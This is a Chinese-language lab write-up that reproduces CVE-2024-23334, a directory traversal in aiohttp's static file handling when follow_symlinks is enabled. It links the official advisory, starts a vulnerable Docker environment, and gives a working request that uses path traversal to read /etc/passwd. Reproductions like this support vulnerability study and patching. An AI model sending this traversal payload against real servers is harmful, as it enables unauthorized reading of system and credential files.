 # CVE-2024-23334 AIOHTTP 目录遍历漏洞

aiohttp是一个基于asyncio库实现的HTTP客户端/服务器框架，它支持高性能和高并发的HTTP通信。aiohttp用于编写异步的Web服务器、Web应用程序或HTTP客户端，以提供对Web和HTTP资源的访问和操作。使用 aiohttp 作为 Web 服务器并配置静态路由时，需要指定静态文件的根路径。此外，选项“follow_symlinks”可用于确定是否遵循静态根目录之外的符号链接。当“follow_symlinks”设置为 True 时，不会进行验证来检查给定的文件路径是否在根目录中。这可能导致目录遍历漏洞，导致未经授权访问系统上的任意文件，即使符号链接不存在也是如此。

项目库链接[aio-libs/aiohttp: Asynchronous HTTP client/server framework for asyncio and Python (github.com)](https://github.com/aio-libs/aiohttp)

参考链接：

- [aiohttp.web.static(follow_symlinks=True) is vulnerable to directory traversal · Advisory · aio-libs/aiohttp (github.com)](https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f)
- [NVD - CVE-2024-23334 (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2024-23334)
- https://blog.csdn.net/shelter1234567/article/details/136453006?csdn_share_tail=%7B%22type%22%3A%22blog%22%2C%22rType%22%3A%22article%22%2C%22rId%22%3A%22136453006%22%2C%22source%22%3A%22shelter1234567%22%7D

## 环境搭建

执行如下命令启动一个包含漏洞的aiohttp-v3.9.1环境：

```
docker compose up -d
```

## 漏洞复现

burp发包 遍历系统的passwd文件

```
GET /static/../../../../etc/passwd HTTP/1.1
Host: 192.168.116.128:8080
Content-Length: 2
```

![](https://img-blog.csdnimg.cn/direct/dc76ba2de52443dea5ce8b8937166a5d.png)
